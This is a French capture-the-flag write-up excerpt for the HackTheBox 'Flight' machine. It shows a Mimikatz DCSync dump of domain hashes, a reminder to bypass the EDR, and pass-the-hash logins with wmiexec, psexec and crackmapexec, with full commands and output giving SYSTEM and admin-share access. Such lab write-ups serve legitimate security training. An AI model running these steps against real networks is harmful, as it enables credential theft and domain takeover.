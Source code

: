 ```yaml
---
public: true # set to true to make the article publishable
---
```



## dump de la base NTDS.DIT

Penser à bypasser l'EDR en place !!
- On upload `Mimikatz.exe`
- On exécute ensuite : `mimikatz.exe "lsadump::dcsync /domain:flight.htb /all /csv"`
![[Flight-13.png]]

### Vérification des accès

Grace à ces hashes collectés, nous pourrons nous reconnecter via l'attaque *Pass The Hash* à distance à la machine en tant qu'administrateur du domaine, sans disposer du mot de passe de cet utilisateur :

```shell title="Utilisation du Hash NT récupéré avec wmiexec.py"
$ wmiexec.py  -hashes :43bbfc530bab76141b12c8446e30c17c -dc-ip $TARGET_IP flight.htb/Administrator@$TARGET_IP whoami
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
flight\administrator
```


```shell title="Utilisation du Hash NT récupéré avec psexec.py"
$ psexec.py Administrator@$TARGET_IP -hashes :43bbfc530bab76141b12c8446e30c17c
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.11.187.....
[*] Found writable share ADMIN$
[*] Uploading file BVTQqKla.exe
[*] Opening SVCManager on 10.10.11.187.....
[*] Creating service gxjC on 10.10.11.187.....
[*] Starting service gxjC.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```


```shell title="Utilisation du Hash NT récupéré avec crackmapexec"
└─$ cme smb $TARGET_IP -u Administrator -H 43bbfc530bab76141b12c8446e30c17c --shares | cut -c60-
      [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
      [+] flight.htb\Administrator:43bbfc530bab76141b12c8446e30c17c (Pwn3d!)
      [+] Enumerated shares
      Share           Permissions     Remark
      -----           -----------     ------
      ADMIN$          READ,WRITE      Remote Admin
      C$              READ,WRITE      Default share
      IPC$            READ            Remote IPC
      NETLOGON        READ,WRITE      Logon server share 
      Shared          READ            
      SYSVOL          READ            Logon server share 
      Users           READ            
      Web             READ            
```
